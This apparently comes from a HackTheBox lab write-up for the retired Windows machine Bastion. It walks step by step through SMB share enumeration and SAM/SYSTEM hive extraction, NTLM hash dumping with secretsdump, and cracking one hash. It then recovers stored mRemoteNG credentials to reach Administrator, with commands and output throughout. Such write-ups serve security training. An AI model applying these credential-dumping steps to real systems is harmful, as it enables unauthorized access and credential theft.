




This is a writeup for the HTB machine Bastion (Retire).
# Bastion
- IP Address: ``10.10.10.134``
- Difficulty: Easy
- Operating System: Windows

??? Warning
     "This machine is retired on HTB. You will need an active VIP subscription to access it."

I will start off with a `nmap scan` to see what services are running.
## Enumeration
```bash
nmap -sC -sV 10.10.10.134 -Pn --unprivileged                                                                  
Starting Nmap 7.95 ( https://nmap.org ) at 2024-12-24 19:44 Eastern Standard Time
Nmap scan report for 10.10.10.134
Host is up (0.13s latency).
Not shown: 995 filtered tcp ports (no-response)
PORT     STATE SERVICE      VERSION
22/tcp   open  ssh          OpenSSH for_Windows_7.9 (protocol 2.0)
| ssh-hostkey:
|   2048 3a:56:ae:75:3c:78:0e:c8:56:4d:cb:1c:22:bf:45:8a (RSA)
|   256 cc:2e:56:ab:19:97:d5:bb:03:fb:82:cd:63:da:68:01 (ECDSA)
|_  256 93:5f:5d:aa:ca:9f:53:e7:f2:82:e6:64:a8:a3:a0:18 (ED25519)
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds
5985/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
| smb-os-discovery:
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: Bastion
|   NetBIOS computer name: BASTION\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2024-12-25T01:44:56+01:00
|_clock-skew: mean: -19m58s, deviation: 34m35s, median: 0s
| smb2-security-mode:
|   3:1:1:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2024-12-25T00:44:57
|_  start_date: 2024-12-24T20:12:40
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 45.11 seconds
```

### SMB Enumeration
```zsh
┌─(C:\Users\dcyberguy\pipx\venvs\impacket\Scripts)────────────────────────────────────(dcyberguy@PLAYROOM-WIN)─┐
└─(20:02:23)──> netexec smb 10.10.10.134 -u '' -p '' --shares                                                      2 ↵ ──(Tue,Dec24)─┘
SMB         10.10.10.134    445    BASTION          [*] Windows Server 2016 Standard 14393 x64 (name:BASTION) (domain:Bastion) (signing:False) (SMBv1:True)
SMB         10.10.10.134    445    BASTION          [+] Bastion\'':'' (Guest)
SMB         10.10.10.134    445    BASTION          [*] Enumerated shares
SMB         10.10.10.134    445    BASTION          Share           Permissions     Remark
SMB         10.10.10.134    445    BASTION          -----           -----------     ------
SMB         10.10.10.134    445    BASTION          ADMIN$                          Remote Admin
SMB         10.10.10.134    445    BASTION          Backups         READ,WRITE
SMB         10.10.10.134    445    BASTION          C$                              Default share
SMB         10.10.10.134    445    BASTION          IPC$                            Remote IPC

```

Using the ``net view`` command to view the contents of the ALL the shares for the ``BASTION`` host.

```zsh
┌─(C:\Users\dcyberguy\pipx\venvs\impacket\Scripts)─────────────────────────────────────────────(dcyberguy@PLAYROOM-WIN)─┐
└─(20:14:29)──> net view \\10.10.10.134 /all                                                                           ──(Tue,Dec24)─┘
Shared resources at \\10.10.10.134

Share name  Type  Used as  Comment

-------------------------------------------------------------------------------
ADMIN$      Disk           Remote Admin
Backups     Disk
C$          Disk           Default share
IPC$        IPC            Remote IPC
The command completed successfully.
```
The ``Backups`` share is the only share that we can access. Let's connect to it and see what files are there.

```zsh
smbclient //10.10.10.134/Backups                                                                                                        
Password for [WORKGROUP\d-cyberguy]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Tue Dec 24 20:03:53 2024
  ..                                  D        0  Tue Dec 24 20:03:53 2024
  CquJsHSVUK.txt                      A        0  Tue Dec 24 20:03:53 2024
  note.txt                           AR      116  Tue Apr 16 06:10:09 2019
  SDT65CB.tmp                         A        0  Fri Feb 22 07:43:08 2019
  tpBJOVSnoI                          D        0  Tue Dec 24 20:03:52 2024
  WindowsImageBackup                 Dn        0  Fri Feb 22 07:44:02 2019

                5638911 blocks of size 4096. 1172070 blocks available
smb: \> get note.txt
getting file \note.txt of size 116 as note.txt (0.2 KiloBytes/sec) (average 0.2 KiloBytes/sec)
smb: \> get CquJsHSVUK.txt
getting file \CquJsHSVUK.txt of size 0 as CquJsHSVUK.txt (0.0 KiloBytes/sec) (average 0.1 KiloBytes/sec)
smb: \> exit
```

I will use my local windows hacking machine to read the contents of the ``WindowsImageBackup`` file.




To crack the DB we need the SAM and SYSTEM hives. They are located at ``C:\WIndows\System32\config\SAM and C:\Windows\System32\config\SYSTEM.``

Save them locally on your device and then run:

I used ``secretdumpy`` to dump out the credentials from the SAM and SYSTEM hives.

```bash
┌─(C:\Users\dcyberguy\pipx\venvs\impacket\Scripts)─────────────────────────────────────────────(dcyberguy@PLAYROOM-WIN)─┐
└─(21:36:14)──> python secretsdump.py -sam C:\Users\dcyberguy\Desktop\SAM -system C:\Users\dcyberguy\Desktop\SYSTEM LOCAL
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

[*] Target system bootKey: 0x8b56b2cb5033d8e2e289c26f8939a25f
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
L4mpje:1000:aad3b435b51404eeaad3b435b51404ee:26112010952d963c8dc4217daec986d9:::
[*] Cleaning up...
```

If we take the NTLM hash to ``Crackstation`` we get: ``bureaulampje``



## Getting a Shell
Using ``SSH`` to get a shell on the box.
```zsh
ssh l4mpje@10.10.10.134                                                                                       
The authenticity of host '10.10.10.134 (10.10.10.134)' can't be established.
ED25519 key fingerprint is SHA256:2ZbIDKRPlngECX1WSMqnucdOWthIaPG7wQ6mBReac7M.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.134' (ED25519) to the list of known hosts.
l4mpje@10.10.10.134's password:
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

l4mpje@BASTION C:\Users\L4mpje\Desktop>dir
 Volume in drive C has no label.
 Volume Serial Number is 1B7D-E692

 Directory of C:\Users\L4mpje\Desktop

22-02-2019  15:27    <DIR>          .
22-02-2019  15:27    <DIR>          ..
24-12-2024  21:13                34 user.txt
               1 File(s)             34 bytes
               2 Dir(s)   4.732.170.240 bytes free

l4mpje@BASTION C:\Users\L4mpje\Desktop>type user.txt
4f618369c53e1f5aede7d039e84b5870
```

## Privilege Escalation

Using ``winPEAS`` to enumerate the box for potential privilege escalation vectors.
We can also see that it has the ``mRemote Remote connection`` tool and it's insecure credentials can be located at 

```bash
l4mpje@BASTION C:\Program Files (x86)\mRemoteNG>cd C:\Users\L4mpje\AppData\Roaming

l4mpje@BASTION C:\Users\L4mpje\AppData\Roaming>dir
 Volume in drive C has no label.
 Volume Serial Number is 1B7D-E692

 Directory of C:\Users\L4mpje\AppData\Roaming

22-02-2019  14:01    <DIR>          .
22-02-2019  14:01    <DIR>          ..
22-02-2019  13:50    <DIR>          Adobe
22-02-2019  14:03    <DIR>          mRemoteNG
               0 File(s)              0 bytes
               4 Dir(s)   4.732.039.168 bytes free

l4mpje@BASTION C:\Users\L4mpje\AppData\Roaming>cd mRemoteNG

l4mpje@BASTION C:\Users\L4mpje\AppData\Roaming\mRemoteNG>dir
 Volume in drive C has no label.
 Volume Serial Number is 1B7D-E692

 Directory of C:\Users\L4mpje\AppData\Roaming\mRemoteNG

22-02-2019  14:03    <DIR>          .
22-02-2019  14:03    <DIR>          ..
22-02-2019  14:03             6.316 confCons.xml
22-02-2019  14:02             6.194 confCons.xml.20190222-1402277353.backup
22-02-2019  14:02             6.206 confCons.xml.20190222-1402339071.backup
22-02-2019  14:02             6.218 confCons.xml.20190222-1402379227.backup
22-02-2019  14:02             6.231 confCons.xml.20190222-1403070644.backup
22-02-2019  14:03             6.319 confCons.xml.20190222-1403100488.backup
22-02-2019  14:03             6.318 confCons.xml.20190222-1403220026.backup
22-02-2019  14:03             6.315 confCons.xml.20190222-1403261268.backup
22-02-2019  14:03             6.316 confCons.xml.20190222-1403272831.backup
22-02-2019  14:03             6.315 confCons.xml.20190222-1403433299.backup
22-02-2019  14:03             6.316 confCons.xml.20190222-1403486580.backup
22-02-2019  14:03                51 extApps.xml
25-12-2024  04:59             6.370 mRemoteNG.log
22-02-2019  14:03             2.245 pnlLayout.xml
22-02-2019  14:01    <DIR>          Themes
              14 File(s)         77.730 bytes
               3 Dir(s)   4.732.039.168 bytes free

l4mpje@BASTION C:\Users\L4mpje\AppData\Roaming\mRemoteNG>      
```

Let's transfer the ``confCons.xml`` locally, so that we can be able to obtain the administrators credentials.

```zsh
scp l4mpje@10.10.10.134:\users\l4mpje\AppData\Roaming\mRemoteNG\confCons.xml confCons.xml                     
l4mpje@10.10.10.134's password:
confCons.xml      
```

Now navigate to the confCons.xml file and import it. Once it’s imported go to Tools > External Tools. Then right-click in the white space and choose New External Tool. Next, in the External Tools Properties, fill in a Display Name, Filename and some arguments, with Password lookup,



Now right click on DC and click on Tools > New External Tool name
A prompt should appear above which the password is echoed.



Now that we can have the Administrator's password. Let's login as Administrator using SSH.

```zsh
ssh administrator@10.10.10.134                                                                                
administrator@10.10.10.134's password:
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

administrator@BASTION C:\Users\Administrator>dir
 Volume in drive C has no label.
 Volume Serial Number is 1B7D-E692

 Directory of C:\Users\Administrator

25-04-2019  05:08    <DIR>          .
25-04-2019  05:08    <DIR>          ..
23-02-2019  09:40    <DIR>          Contacts
23-02-2019  09:40    <DIR>          Desktop
23-02-2019  09:40    <DIR>          Documents
23-02-2019  09:40    <DIR>          Downloads
23-02-2019  09:40    <DIR>          Favorites
23-02-2019  09:40    <DIR>          Links
23-02-2019  09:40    <DIR>          Music
23-02-2019  09:40    <DIR>          Pictures
23-02-2019  09:40    <DIR>          Saved Games
23-02-2019  09:40    <DIR>          Searches
23-02-2019  09:40    <DIR>          Videos
               0 File(s)              0 bytes
              13 Dir(s)   4.731.777.024 bytes free

administrator@BASTION C:\Users\Administrator>
administrator@BASTION C:\Users\Administrator>cd Desktop

administrator@BASTION C:\Users\Administrator\Desktop>dir
 Volume in drive C has no label.
 Volume Serial Number is 1B7D-E692

 Directory of C:\Users\Administrator\Desktop

23-02-2019  09:40    <DIR>          .
23-02-2019  09:40    <DIR>          ..
24-12-2024  21:13                34 root.txt
               1 File(s)             34 bytes
               2 Dir(s)   4.731.777.024 bytes free

administrator@BASTION C:\Users\Administrator\Desktop>type root.txt
65d972bb7722585f7de00a856984c1ea
```
We have successfully rooted the box!


